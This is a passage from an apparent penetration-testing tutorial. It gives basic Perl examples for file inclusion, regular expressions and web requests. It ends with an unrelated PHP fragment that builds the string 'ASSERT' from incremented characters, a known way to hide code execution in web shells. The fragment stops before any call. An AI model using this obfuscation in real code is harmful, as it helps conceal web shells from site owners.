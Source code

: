 This code will execute the `config.pl` file and include its contents in the current script. It is important to ensure that the included file is trusted and does not contain any malicious code that could be executed.

#### 3. Regular Expressions

Perl has powerful support for regular expressions, which can be used for pattern matching and text manipulation. The `=~` operator is used to match a string against a regular expression. For example:

```perl
if ($string =~ /pattern/) {
    print "Match found!";
}
```

This code will check if the variable `$string` matches the specified pattern and print "Match found!" if it does. Regular expressions can be used for tasks such as input validation, data extraction, and filtering.

#### 4. Web Requests

Perl provides several modules for making web requests, such as `LWP::UserAgent` and `HTTP::Request`. These modules can be used to send HTTP requests, handle cookies, and parse HTML responses. For example:

```perl
use LWP::UserAgent;

my $ua = LWP::UserAgent->new;
my $response = $ua->get('https://example.com');

if ($response->is_success) {
    print $response->content;
}
```

This code uses the `LWP::UserAgent` module to send a GET request to `https://example.com` and print the response content if the request is successful. These modules can be useful for testing web applications and automating tasks such as form submission.

#### Conclusion

Perl-like tricks can be valuable tools for web application penetration testing. By leveraging Perl's powerful features, you can enhance your testing capabilities and uncover vulnerabilities in web applications. However, it is important to use these tricks responsibly and ensure that proper security measures are in place to protect against potential exploits.
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
```